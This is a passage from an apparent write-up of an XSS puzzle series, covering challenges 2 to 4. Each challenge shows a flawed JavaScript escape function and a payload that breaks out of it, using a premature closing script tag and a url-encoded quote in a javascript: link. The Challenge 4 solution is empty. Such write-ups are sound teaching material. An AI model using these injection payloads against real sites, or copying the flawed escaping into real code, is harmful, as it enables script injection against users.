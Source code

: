 Challenge 2
-----------
```
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```
Solution
-----------
```
</script><script>alert(1)</script>
```
`JSON.stringify` will escape both double quote and backslash, so we cannot use the trick from the previous challenge. But we may rely on [how browser tokenize html](http://www.whatwg.org/specs/web-apps/current-work/multipage/scripting-1.html#restrictions-for-contents-of-script-elements) and trick it to find our script closing tag earlier than an original one. The resulting html will be
```
<script>console.log(“</script><script>alert(1)</script>”;</script>
```
where first script block will throw `Syntax Error` and the second one will be executed properly.

Challenge 3
-----------
```
function escape(s) {
  var url = 'javascript:console.log(' + JSON.stringify(s) + ')';
  console.log(url);

  var a = document.createElement('a');
  a.href = url;
  document.body.appendChild(a);
  a.click();
}
```
Solution
-----------
```
%22), alert(1)//
```
Another “side effect” of `JSON.stringify` is that it will [add double quotes](http://es5.github.io/x15.12.html#x15.12.3) around passed string, so if we will pass `foo` string the escape function will produce the following:
```
<a href='javascript:console.log("foo")'></a>
```
As in previous challenges, we cannot simply use `“` (double quote) symbol to end string statement earlier. But since we’re in `href` attribute, we can use url-encoded double quote which is `%22`:
```
<a href='javascript:console.log("%22), alert(1)//")'></a>
```

Challenge 4
-----------
```
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace('"', '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```
Solution
-----------
```
```